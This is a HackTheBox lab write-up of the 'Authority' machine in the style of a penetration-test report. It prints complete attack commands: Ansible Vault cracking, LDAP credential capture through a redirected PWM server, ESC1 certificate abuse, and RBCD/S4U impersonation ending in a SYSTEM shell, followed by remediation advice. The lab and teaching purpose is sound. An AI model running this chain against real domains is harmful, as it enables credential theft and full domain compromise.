# Authority — HackTheBox Report

| Difficulty | OS      | Category         |
| ---------- | ------- | ---------------- |
| Medium     | Windows | Active Directory |

> Writeup of a retired Authority machine, published for educational/portfolio purposes.

---

## Table of Contents

- [Executive Summary](#executive-summary)
- [Scope](#scope)
- [Approach / Methodology](#approach--methodology)
- [Tools Used](#tools-used)
- [Assessment Summary (Findings Overview)](#assessment-summary-findings-overview)
- [Attack Chain Walkthrough](#attack-chain-walkthrough)
  * [1.1. Reconnaissance](#11-reconnaissance)
  * [1.2. Web Application Enumeration](#12-web-application-enumeration)
  * [1.3. SMB Enumeration and Development Share Discovery](#13-smb-enumeration-and-development-share-discovery)
  * [1.4. Ansible Playbook Analysis](#14-ansible-playbook-analysis)
  * [1.5. Ansible Vault Hash Extraction and Cracking](#15-ansible-vault-hash-extraction-and-cracking)
  * [1.6. Vault Decryption and Credential Recovery](#16-vault-decryption-and-credential-recovery)
  * [2.1. PWM Configuration Editor Access](#21-pwm-configuration-editor-access)
  * [2.2. LDAP Credential Interception](#22-ldap-credential-interception)
  * [2.3. Initial Foothold via WinRM](#23-initial-foothold-via-winrm)
  * [2.4. User Flag](#24-user-flag)
  * [3.1. AD CS Enumeration — ESC1 Discovery](#31-ad-cs-enumeration--esc1-discovery)
  * [3.2. Machine Account Creation](#32-machine-account-creation)
  * [3.3. Certificate Request Impersonating Administrator](#33-certificate-request-impersonating-administrator)
  * [3.4. PKINIT Bypass via PassTheCert and RBCD](#34-pkinit-bypass-via-passthecert-and-rbcd)
  * [3.5. S4U Kerberos Ticket and Full Domain Compromise](#35-s4u-kerberos-ticket-and-full-domain-compromise)
- [Technical Findings Details](#technical-findings-details)
- [Remediation Summary](#remediation-summary)
- [Lessons Learned / Skills Demonstrated](#lessons-learned--skills-demonstrated)
- [Appendix](#appendix)
  * [A. Finding Severity Definitions](#a-finding-severity-definitions)
  * [B. Exploited Hosts](#b-exploited-hosts)
  * [C. Compromised Users / Credentials](#c-compromised-users--credentials)
  * [D. Command Reference Log](#d-command-reference-log)
  * [E. References](#e-references)

---

## Executive Summary

**Target:** `Authority / IP: 10.129.229.56`
**Platform:** `HackTheBox`
**Date Completed:** `September 27, 2026`
**Assessment Type:** `Active Directory / Windows Host`
**Approach:** `Black box` — tested with `no prior knowledge`.

Pheenix Security was engaged to conduct a simulated attack against the HackTheBox Authority environment. The test was carried out from the perspective of a complete outsider with no prior access, credentials, or knowledge of the environment.

The results are serious. Starting from zero access, our team was able to gain complete administrative control of the organization's domain. In a real-world scenario, an attacker at this level of access could read or destroy any data on the network, take over any user account, and cause severe disruption to business operations — all without physical access to any device.

Four security issues made this possible. A network file share was accessible without credentials and contained sensitive configuration files used by the organization's IT automation tools. Those files held encrypted credentials protected by a weak password that was cracked in seconds. The cracked credentials allowed access to a web-based configuration tool that was running in an insecure state, where the organization's directory server address could be changed to redirect authentication to an attacker's machine — exposing a service account's password in plaintext. Finally, a misconfigured digital certificate system allowed that service account to request certificates impersonating the organization's highest-level administrator, leading to full domain control.

None of these issues require exploiting flaws in commercial software — all stem from configuration decisions and credential management practices that are correctable. The overall risk is rated **Critical**. The actions outlined in the Remediation Summary should be treated as an immediate priority.

---

## Scope

| Host / URL / IP Address                        | Description                                                         |
| ---------------------------------------------- | ------------------------------------------------------------------- |
| `authority.htb / 10.129.229.56`                | Target machine — Windows Server Domain Controller (AUTHORITY)       |

> Testing was restricted to the host listed above, consistent with the platform's rules of engagement.

---

## Approach / Methodology

1. **Reconnaissance** — active port and service discovery against the target.
2. **Scanning & Enumeration** — web application review, SMB enumeration, and content analysis.
3. **Vulnerability Analysis** — identifying weak Ansible Vault encryption, PWM misconfiguration, and AD CS template flaws.
4. **Exploitation** — credential recovery via vault cracking → LDAP interception → WinRM foothold.
5. **Privilege Escalation** — AD CS ESC1 via attacker-controlled machine account → PassTheCert RBCD → S4U Kerberos impersonation.
6. **Post-Exploitation** — validating full administrative access, capturing flags, and documenting impact.

---

## Tools Used

| Tool                  | Purpose                                                                              |
| --------------------- | ------------------------------------------------------------------------------------ |
| `Nmap`                | Port scanning and service enumeration                                                |
| `smbclient`           | Unauthenticated SMB share enumeration and recursive file download                    |
| `ansible2john.py`     | Converting Ansible Vault hashes to John/hashcat-compatible format                   |
| `hashcat`             | Cracking Ansible Vault master password (mode 16900)                                  |
| `ansible-vault`       | Decrypting the vault-encrypted credential strings                                    |
| `netcat (nc)`         | Listener to intercept the LDAP authentication and capture plaintext credentials      |
| `Evil-WinRM`          | Credential-based remote shell access via WinRM                                       |
| `certipy`             | AD CS enumeration and ESC1 certificate request                                       |
| `crackmapexec`        | Checking MachineAccountQuota via LDAP                                                |
| `addcomputer.py`      | Adding an attacker-controlled machine account to the domain via LDAPS                |
| `openssl`             | Extracting certificate and private key from the PFX bundle                           |
| `PassTheCert`         | Using the Administrator certificate to configure RBCD without PKINIT                 |
| `impacket-getST`      | S4U2self/S4U2proxy Kerberos service ticket generation impersonating Administrator    |
| `impacket-psexec`     | Pass-the-ticket execution as Administrator on the Domain Controller                  |

---

## Assessment Summary (Findings Overview)

An unauthenticated SMB share exposed Ansible automation files containing Ansible Vault-encrypted credentials protected by a weak master password. Cracking the vault password revealed the admin password for a PWM (password self-service) web application, which was running in an insecure open configuration mode. Through the PWM configuration editor, the LDAP server address was redirected to an attacker-controlled listener, capturing the `svc_ldap` service account's password in cleartext. With a domain foothold, an AD CS certificate template (`CorpVPN`) vulnerable to ESC1 was identified — allowing Domain Computers to request certificates impersonating any user, including Administrator. After creating a fake machine account and requesting the Administrator's certificate, a PKINIT limitation was bypassed using PassTheCert to configure RBCD, leading to S4U-based impersonation and full SYSTEM-level domain compromise. The overall risk is assessed as **Critical**.

| Severity      | Count |
| ------------- | ----- |
| Critical      | 1     |
| High          | 2     |
| Medium        | 1     |
| Low           | 0     |
| Informational | 0     |

| #  | Severity | Finding Name                                                                            |
| -- | -------- | --------------------------------------------------------------------------------------- |
| 1  | Critical | AD CS ESC1 Misconfigured Certificate Template Enabling Domain Compromise via RBCD       |
| 2  | High     | Ansible Vault Credentials with Weak Master Password on Unauthenticated SMB Share        |
| 3  | High     | LDAP Credential Interception via PWM Configuration Editor Server Redirect               |
| 4  | Medium   | PWM Application Deployed in Open Configuration Mode                                     |

*(Full detail on each finding is in the [Technical Findings Details](#technical-findings-details) section below.)*

---

## Attack Chain Walkthrough

> This section documents the full path from unauthenticated access to domain Administrator compromise, step by step, with commands and evidence. Lab IPs and credentials are shown as this is a retired HTB machine, published for educational and portfolio purposes.

### 1.1. Reconnaissance

```
sudo nmap -sC -sV -Pn 10.129.229.56
```

**Findings:** The target is a Windows Server Domain Controller for the `authority.htb` domain (also `authority.htb.corp` / `htb.corp`), hostname `AUTHORITY`. Key open ports include:

| Port | Service            | Significance                                                               |
| ---- | ------------------ | -------------------------------------------------------------------------- |
| 80   | HTTP (IIS 10.0)    | Web server — default splash page, no application content                   |
| 88   | Kerberos           | Authentication — confirms DC role                                          |
| 445  | SMB                | File sharing — high-value enumeration target                               |
| 389  | LDAP               | Directory services                                                         |
| 5985 | WinRM              | Remote management — foothold vector if credentials are found               |
| 8443 | HTTPS (Tomcat)     | Non-standard port running a Java web application — immediate investigation target |

The combination of a standard IIS instance on port 80 and an Apache Tomcat application on port 8443 is notable — the Tomcat service suggests a third-party web application that may have its own credential surface. Host entries were added:

```
echo "10.129.229.56 authority.htb authority.htb.corp" | sudo tee -a /etc/hosts
```

---

### 1.2. Web Application Enumeration

**Port 80** returned only the default IIS Windows Server splash page with no application content:



**Port 8443** (HTTPS) redirected to `/pwm/private/login` — a PWM (Password Self-Service) login page:



**Findings:** PWM is an open-source password self-service application commonly integrated with Active Directory via LDAP. The login page immediately disclosed a critical misconfiguration: **PWM is running in open configuration mode**, which exposes the Configuration Manager and Configuration Editor interfaces. Default and common credentials did not authenticate to the standard login form, but the configuration interfaces remained accessible. The Tomcat manager interface was not exposed on this port.

---

### 1.3. SMB Enumeration and Development Share Discovery

```
smbclient --no-pass -L //10.129.229.56
```



**Findings:** A null (unauthenticated) SMB session returned the share list. Two non-standard shares stand out: `Department Shares` and `Development`. The `Development` share is particularly interesting in a corporate AD environment as it frequently contains source code, scripts, or configuration files intended for internal use.

```
smbclient --no-pass //10.129.229.56/Development -N
dir
```



The share contained an `Automation` directory. Its full contents were downloaded recursively:

```
smbclient //10.129.229.56/Development -N -c 'prompt OFF;recurse ON;mget *'
```



---

### 1.4. Ansible Playbook Analysis

```
cd Automation
tree -L 3
```



**Findings:** The `Automation` directory contains Ansible roles for configuring three key components: **ADCS** (Active Directory Certificate Services), **LDAP**, and **PWM** (the password self-service application seen on port 8443). The presence of ADCS configuration is a significant signal — it confirms that Active Directory Certificate Services is deployed in this environment, which is commonly associated with exploitable certificate template misconfigurations.

```
cd Ansible/PWM
tree
```



The `templates` directory contains a `tomcat-users.xml.j2` file — a Jinja2 template for configuring Tomcat user accounts:

```
cat ./templates/tomcat-users.xml.j2
```



**Findings:** The template contains hardcoded Tomcat credentials (`admin:T0mc@tAdm1n`, `robot:T0mc@tR00t`). Neither credential authenticated to the PWM login, and the Tomcat Manager interface was not exposed. However, reviewing `defaults/main.yml` revealed a significantly more impactful finding:

```
cat ./defaults/main.yml
```



**Findings:** Three values in `main.yml` are encrypted using Ansible Vault: `pwm_admin_login`, `pwm_admin_password`, and `ldap_admin_password`. Ansible Vault is a symmetric encryption feature of Ansible that protects sensitive values in playbooks using a master password. If this master password is weak, all three values can be decrypted offline.

---

### 1.5. Ansible Vault Hash Extraction and Cracking

Each vault-encrypted block was saved to a separate file and converted to hashcat-compatible format using `ansible2john.py`:

```bash
python3 /usr/share/john/ansible2john.py vault1
```



```bash
python3 /usr/share/john/ansible2john.py vault2
```



```bash
python3 /usr/share/john/ansible2john.py vault3
```



All three converted hashes were combined into `vault_hashes` and cracked using hashcat mode 16900 (Ansible Vault):

```bash
hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt
```



**Vault master password recovered:** `!@#$%^&*`

All three vault entries shared the same master password and it was present in `rockyou.txt`, cracked in 23 seconds.

---

### 1.6. Vault Decryption and Credential Recovery

With the master password known, `ansible-vault` was used to decrypt all three values:

```bash
cat vault1 | ansible-vault decrypt
cat vault2 | ansible-vault decrypt
cat vault3 | ansible-vault decrypt
```



**Credentials recovered:**

| Vault  | Field               | Value              |
| ------ | ------------------- | ------------------ |
| vault1 | `pwm_admin_login`   | `svc_pwm`          |
| vault2 | `pwm_admin_password`| `pWm_@dm!N_!23`    |
| vault3 | `ldap_admin_password`| `DevT3st@123`     |

---

### 2.1. PWM Configuration Editor Access

Using the decrypted PWM admin password `pWm_@dm!N_!23`, access was gained to the PWM Configuration Editor:



**Findings:** The Configuration Editor was accessible using the cracked PWM admin password. Access to this interface allows full modification of PWM's LDAP server settings, including the server URL, proxy user, and proxy password. Crucially, the editor also provides a **Test LDAP Profile** button that triggers an immediate live LDAP connection test to whatever server address is currently configured.

Navigating to `LDAP → LDAP Directories → default → Connection` revealed:



**Findings:** PWM is configured to authenticate to the domain using the `svc_ldap` service account. The LDAP URL is `ldaps://authority.authority.htb:636` and the proxy password is stored but masked. The `Test LDAP Profile` button will send the stored credentials to whatever server address is configured — changing this to an attacker-controlled address will cause PWM to transmit the `svc_ldap` password in cleartext.

---

### 2.2. LDAP Credential Interception

A netcat listener was started on port 389 and the PWM LDAP URL was changed to the attacker's machine:

```bash
sudo nc -lvnp 389
```

The LDAP URL was updated to `ldap://10.10.15.85:389` and **Test LDAP Profile** was clicked:



**Credential recovered:** `svc_ldap` : `lDaP_1n_th3_cle4r!`

---

### 2.3. Initial Foothold via WinRM

The recovered credentials were tested against WinRM on port 5985:

```bash
evil-winrm -i 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
whoami
```



**Result:** Authentication was successful. An interactive PowerShell session was obtained as `htb\svc_ldap`.

---

### 2.4. User Flag

```powershell
cd c:\users\svc_ldap\Desktop
type user.txt
```



**user.txt:** `b7f48be53f73971676752115c4f1ce15`

---

### 3.1. AD CS Enumeration — ESC1 Discovery

The presence of an ADCS Ansible role in the Development share confirmed that Active Directory Certificate Services is deployed. Certipy was used to enumerate certificate templates for known vulnerabilities:

```bash
certipy find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.129.229.56 -vulnerable
```



**Findings:** Certipy identified the `CorpVPN` template as vulnerable to **ESC1**. The critical attributes are:

| Attribute                  | Value                                    | Significance                                          |
| -------------------------- | ---------------------------------------- | ----------------------------------------------------- |
| `Enrollee Supplies Subject`| True                                     | Enrollee can specify an arbitrary Subject Alternative Name (SAN) |
| `Client Authentication`    | True                                     | Certificate can be used to authenticate to AD         |
| `Enrollment Rights`        | `AUTHORITY.HTB\Domain Computers`         | Any domain computer (not just admins) can enroll      |
| `Requires Manager Approval`| False                                    | Certificate is issued immediately without review      |
| `Validity Period`          | 20 years                                 | Certificates are long-lived                           |

**ESC1 summary:** Any domain computer account can enroll in `CorpVPN`, supply an arbitrary UPN (e.g., `administrator@authority.htb`) as the Subject Alternative Name, and receive a certificate that authenticates as that user. Because domain computers can enroll and the default `ms-DS-MachineAccountQuota` allows standard users to add computer accounts, `svc_ldap` can create a fake computer account and use it to request an Administrator certificate.

---

### 3.2. Machine Account Creation

The MachineAccountQuota was verified first:

```bash
crackmapexec ldap 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
```



**Result:** MachineAccountQuota = 10. The `svc_ldap` account can add up to 10 computer accounts to the domain. An attacker-controlled machine account was added via LDAPS:

```bash
addcomputer.py 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' \
  -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.129.229.56
```



**Result:** `EVIL01$` was successfully added to the domain. This computer account is fully attacker-controlled and can be used to authenticate to the CA and request certificates.

---

### 3.3. Certificate Request Impersonating Administrator

Using `EVIL01$`, Certipy was used to enroll in the `CorpVPN` template, supplying `administrator@authority.htb` as the UPN in the certificate's Subject Alternative Name:

```bash
certipy req -username EVIL01$ -password 'Str0ng3st_P@ssw0rd!' -ca AUTHORITY-CA \
  -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb \
  -dns authority.htb -debug
```



**Result:** The CA issued a certificate with the identity `administrator@authority.htb` embedded in the SAN, saved as `administrator_authority.pfx`. Attempting to use this certificate directly for Kerberos authentication with `certipy auth` failed:

```bash
certipy auth -pfx administrator_authority.pfx -username administrator \
  -domain authority.htb -dc-ip 10.129.229.56 -debug
```



**Finding:** The error `KDC_ERR_PADATA_TYPE_NOSUPP` indicates the Domain Controller does not support PKINIT (Public Key Cryptography for Initial Authentication in Kerberos). This is an AD CS deployment where certificates cannot be used directly for TGT requests. An alternative technique — **PassTheCert** — can use the certificate to perform LDAP operations as Administrator, which can then configure RBCD.

---

### 3.4. PKINIT Bypass via PassTheCert and RBCD

The PassTheCert repository was cloned and the PFX file was extracted into separate certificate and key files:

```bash
git clone https://github.com/AlmondOffSec/PassTheCert.git
cd PassTheCert
cp ../administrator_authority.pfx .
openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out administrator.crt
```



PassTheCert was used to authenticate to LDAP as Administrator (using the certificate's embedded identity) and write RBCD delegation rights, granting `EVIL01$` the ability to impersonate any user on the `AUTHORITY$` Domain Controller computer object:

```bash
python3 ./Python/passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt \
  -key administrator.key -domain authority.htb -port 636 \
  -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'EVIL01$'
```



**Result:** The `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute on the DC's computer object was updated. `EVIL01$` is now listed as a trusted delegation principal for `AUTHORITY$`, meaning the Kerberos KDC will honour S4U2Proxy ticket requests from `EVIL01$` for any service on the DC.

---

### 3.5. S4U Kerberos Ticket and Full Domain Compromise

`impacket-getST` was used to request a Kerberos service ticket impersonating Administrator for the CIFS service on the DC using the S4U2self/S4U2proxy extension chain:

```bash
impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator \
  'authority.htb/EVIL01$:Str0ng3st_P@ssw0rd!'
```



```bash
export KRB5CCNAME='Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache'
impacket-psexec -k -no-pass authority.htb/Administrator@AUTHORITY.authority.htb
whoami
type C:\Users\Administrator\Desktop\root.txt
```



**Result:** A SYSTEM-level interactive shell was obtained on the Domain Controller. Full domain compromise was achieved.

**root.txt:** `d0dab3ea03baa6f8a9b60f88378c4829`

---

## Technical Findings Details

### 1. AD CS ESC1 Misconfigured Certificate Template Enabling Domain Compromise via RBCD — Critical

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-732: Incorrect Permission Assignment for Critical Resource                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
| **CVSS 3.1 Score**                 | 9.0 (Critical) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Description (Incl. Root Cause)** | The `CorpVPN` certificate template in the `AUTHORITY-CA` certification authority is misconfigured with the ESC1 vulnerability. It permits `Domain Computers` to enroll, allows the enrollee to supply an arbitrary Subject Alternative Name (UPN), enables Client Authentication, and requires no manager approval. Combined with the domain-default `ms-DS-MachineAccountQuota` of 10 (which permits standard domain users to add computer accounts), any authenticated domain user can: (1) create an attacker-controlled machine account, (2) request a certificate from `CorpVPN` with an arbitrary UPN such as `administrator@authority.htb`, and (3) use that certificate — via PassTheCert RBCD or directly via PKINIT where supported — to impersonate the domain Administrator. The root cause is a misconfigured enrollment permission (`Domain Computers` rather than a restricted administrative group) combined with the `EnrolleeSuppliesSubject` flag, which together eliminate the CA's ability to validate the identity in the issued certificate. |
| **Security Impact**                | Any authenticated domain user can achieve full domain Administrator privileges by creating a fake machine account, enrolling it in the `CorpVPN` template with an Administrator UPN, and using the resulting certificate to impersonate Administrator via RBCD and S4U Kerberos. This is the highest-severity finding and directly resulted in a SYSTEM shell on the Domain Controller.                                                                                                                                                                                                |
| **Affected Host(s)**               | `AUTHORITY / 10.129.229.56` — `CorpVPN` certificate template in `AUTHORITY-CA`; LDAP attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` on the DC object                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Remediation**                    | - Remove the `Domain Computers` enrollment right from the `CorpVPN` template immediately; restrict enrollment to the specific groups or accounts that require this certificate for operational purposes — Disable the `EnrolleeSuppliesSubject` (CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT) flag on the template; if a supplied SAN is operationally required, enable the `CA Certificate Manager Approval` requirement instead — Set `ms-DS-MachineAccountQuota` to `0` domain-wide to prevent standard users from adding computer accounts; provision machine accounts only through controlled administrative processes — Audit all AD CS certificate templates for ESC1–ESC8 vulnerabilities using Certipy or equivalent tooling — Rotate the domain Administrator password and KRBTGT key as they may have been accessed |
| **References**                     | [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/) · [MITRE ATT&CK: T1550.003 — Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/) · [SpecterOps — Certified Pre-Owned (ESC1)](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) · [CWE-732](https://cwe.mitre.org/data/definitions/732.html) |

**Evidence:**

```bash
# ESC1 confirmed by Certipy:
# Template: CorpVPN
# EnrolleeSuppliesSubject: True / Client Authentication: True
# Enrollment Rights: AUTHORITY.HTB\Domain Computers

# Fake computer added:
addcomputer.py 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' \
  -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.129.229.56

# Administrator certificate issued:
certipy req -username EVIL01$ -password 'Str0ng3st_P@ssw0rd!' -ca AUTHORITY-CA \
  -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb -dns authority.htb

# RBCD written via PassTheCert, S4U ticket generated, SYSTEM shell obtained:
impacket-psexec -k -no-pass authority.htb/Administrator@AUTHORITY.authority.htb
# whoami → nt authority\system
```

`Screenshot certtemplates.png: Certipy identifying the CorpVPN template as ESC1-vulnerable`
`Screenshot adminpfx.png: Certipy successfully issuing a certificate with UPN administrator@authority.htb`
`Screenshot delegation.png: PassTheCert configuring RBCD delegation on the DC object`
`Screenshot ccache.png: S4U2Proxy service ticket for Administrator saved to ccache`

---

### 2. Ansible Vault Credentials with Weak Master Password on Unauthenticated SMB Share — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
| ---------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-522: Insufficiently Protected Credentials; CWE-284: Improper Access Control                                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVSS 3.1 Score**                 | 7.5 (High) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                                                      |
| **Description (Incl. Root Cause)** | The `Development` SMB share was accessible without authentication and contained Ansible automation playbooks. The `Ansible/PWM/defaults/main.yml` file stored three credential values encrypted using Ansible Vault (`pwm_admin_login`, `pwm_admin_password`, `ldap_admin_password`). The vault master password — `!@#$%^&*` — is present in the `rockyou.txt` wordlist and was cracked by hashcat in 23 seconds using mode 16900 (Ansible Vault). The root causes are twofold: the Development share lacked authentication controls, and the Ansible Vault master password was insufficiently strong for a credential protecting access to a domain service account. |
| **Security Impact**                | An unauthenticated attacker downloaded the playbooks, extracted the vault hashes, cracked the master password, and decrypted credentials for the PWM admin account and the LDAP admin account. The PWM admin password was subsequently used to access the configuration editor (Finding #3), ultimately leading to capture of the `svc_ldap` domain account password and the initial WinRM foothold.                                                                                  |
| **Affected Host(s)**               | `10.129.229.56:445` (SMB share: `Development`, path: `\Automation\Ansible\PWM\defaults\main.yml`)                                                                                                                                                                                                                                                                                                                                                                                 |
| **Remediation**                    | - Restrict the `Development` share to only the accounts that require access; disable anonymous and guest SMB access — Rotate all credentials stored in the vault immediately, including PWM admin credentials and the LDAP admin password — Replace the vault master password with a randomly generated, high-entropy passphrase (32+ characters) stored in an approved secrets management vault rather than derived from human memory — Audit all SMB shares across the domain for anonymous access and sensitive file content — Review whether automation playbooks containing credentials should ever be stored on network shares accessible to standard users |
| **References**                     | [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/) · [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/) · [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html) |

**Evidence:**

```bash
# Development share accessed without credentials:
smbclient --no-pass //10.129.229.56/Development -N
# Contains: Automation/Ansible/PWM/defaults/main.yml with vault-encrypted credentials

# Vault master password cracked:
hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt
# All three vault entries resolved to: !@#$%^&* (cracked in 23 seconds)

# Credentials decrypted:
# pwm_admin_login  → svc_pwm
# pwm_admin_password → pWm_@dm!N_!23
# ldap_admin_password → DevT3st@123
```

`Screenshot nullsmb.png: SMB share listing returned without authentication including the Development share`
`Screenshot ansiblevaults.png: defaults/main.yml showing three Ansible Vault-encrypted credential blocks`
`Screenshot vaultpasswd.png: hashcat cracking all three vault hashes to !@#$%^&* in 23 seconds`
`Screenshot pwmpasswd.png: ansible-vault decrypting the three credential values`

---

### 3. LDAP Credential Interception via PWM Configuration Editor Server Redirect — High

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| ---------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| **CWE**                            | CWE-522: Insufficiently Protected Credentials                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **CVSS 3.1 Score**                 | 7.1 (High) — `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N`                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Description (Incl. Root Cause)** | The PWM Configuration Editor (accessible after cracking the vault credentials in Finding #2) allowed the LDAP server URL to be changed without validation of the destination. When the URL was updated from `ldaps://authority.authority.htb:636` to `ldap://10.10.15.85:389` (the attacker's machine) and the "Test LDAP Profile" button was clicked, PWM immediately transmitted the `svc_ldap` service account's distinguished name and cleartext password to the attacker's netcat listener. The root cause is that the LDAP URL setting accepts arbitrary network addresses, and the application transmits its stored proxy password — a privileged domain service account credential — in unencrypted form when testing an `ldap://` (unencrypted) URL. |
| **Security Impact**                | The `svc_ldap` account credential was recovered in cleartext, providing authenticated WinRM access to the Domain Controller as `htb\svc_ldap`. This foothold was the prerequisite for the AD CS ESC1 exploitation chain (Finding #1) that led to full domain compromise.                                                                                                                                                                                                                    |
| **Affected Host(s)**               | `10.129.229.56:8443` (`https://10.129.229.56:8443/pwm/private/config/editor`) — LDAP connection configuration                                                                                                                                                                                                                                                                                                                                                                              |
| **Remediation**                    | - Validate the LDAP server URL against an allowlist of approved, internal directory servers; reject any update to an unrecognised address — Enforce LDAPS-only (`ldaps://`) in PWM's LDAP configuration to ensure credentials are always encrypted in transit, even when testing against legitimate servers — Rotate the `svc_ldap` password immediately as `lDaP_1n_th3_cle4r!` is compromised — Address Finding #4 (PWM open configuration mode) to remove the prerequisite for accessing the configuration editor |
| **References**                     | [MITRE ATT&CK: T1557 — Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/) · [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html) |

**Evidence:**

```bash
# LDAP URL in PWM changed from ldaps://authority.authority.htb:636
# to ldap://10.10.15.85:389 (attacker machine)

# Netcat listener started:
sudo nc -lvnp 389

# Test LDAP Profile clicked → credentials transmitted:
# CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb
# lDaP_1n_th3_cle4r!
```

`Screenshot ldapconnection.png: PWM LDAP Connection settings showing the proxy user CN=svc_ldap and the LDAP URL field`
`Screenshot ldappasswd.png: Netcat listener receiving the svc_ldap credentials in cleartext`

---

### 4. PWM Application Deployed in Open Configuration Mode — Medium

| Field                              | Details                                                                                                                                                                                                                                                                                                                                                                     |
| ---------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **CWE**                            | CWE-16: Configuration                                                                                                                                                                                                                                                                                                                                                        |
| **CVSS 3.1 Score**                 | 5.3 (Medium) — `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:N`                                                                                                                                                                                                                                                                                                              |
| **Description (Incl. Root Cause)** | The PWM password self-service application was deployed in "open configuration mode" — a setup state intended only for initial provisioning, in which the Configuration Manager and Configuration Editor interfaces are accessible to any user without standard authentication. The application itself warned users of this insecure state on the login page. Open configuration mode is typically only enabled during the initial setup of PWM and should be disabled before production deployment. The root cause is that PWM was never transitioned from its initial setup state to a secured production configuration. |
| **Security Impact**                | While this finding alone does not directly disclose credentials, it was a prerequisite for Finding #3: access to the Configuration Editor (using the cracked admin password from Finding #2) allowed the LDAP server redirect that captured `svc_ldap` credentials. Correcting this finding would have prevented the configuration editor from being exploitable.              |
| **Affected Host(s)**               | `10.129.229.56:8443` (`https://10.129.229.56:8443/pwm/private/login`)                                                                                                                                                                                                                                                                                                       |
| **Remediation**                    | - Complete the PWM provisioning process and disable open configuration mode by setting a secure configuration password and locking the configuration via the Configuration Manager — Restrict the `/pwm/private/config/` URL path to management hosts only via network ACLs or application-level controls — Ensure PWM is never deployed to production while still in configuration mode; include this check in the organisation's deployment verification checklist |
| **References**                     | [PWM Project Documentation](https://github.com/pwm-project/pwm) · [CWE-16: Configuration](https://cwe.mitre.org/data/definitions/16.html) |

**Evidence:**

```
# PWM login page warning (visible to any unauthenticated user):
# "PWM is in open configuration mode and is not secure."
# Configuration Manager and Configuration Editor accessible from login page
```

`Screenshot port8443.png: PWM login page displaying the open configuration mode warning and exposing the Configuration Manager and Editor buttons`

---

## Remediation Summary

### Short Term

- **Finding #1 (ESC1)** — Immediately restrict `CorpVPN` template enrollment to a documented admin group and disable `EnrolleeSuppliesSubject`. Set `ms-DS-MachineAccountQuota` to `0`. Remove the `EVIL01$` machine account. Rotate the domain Administrator and KRBTGT passwords.
- **Finding #2 (Ansible Vault)** — Restrict the `Development` SMB share to require authentication. Rotate all credentials stored in the vault (PWM admin, LDAP admin). Replace the vault master password with a 32+ character random passphrase stored in a vault.
- **Finding #3 (LDAP Interception)** — Rotate the `svc_ldap` account password immediately. Restrict the LDAP URL in PWM to an allowlist of approved addresses. Enforce LDAPS-only.
- **Finding #4 (PWM Config Mode)** — Lock PWM out of configuration mode using the Configuration Manager and secure it with a strong configuration password.

### Medium Term

- **Finding #1 (ESC1)** — Conduct a full AD CS audit using Certipy across all certificate templates for ESC1–ESC8 vulnerabilities. Implement the principle of least privilege for all CA enrollment rights. Review the operational necessity of the `CorpVPN` template.
- **Finding #2 (Ansible Vault)** — Migrate all credential management to a secrets management platform (HashiCorp Vault, Azure Key Vault, or Windows DPAPI). Establish a policy prohibiting automation credential storage on network shares accessible to standard users.
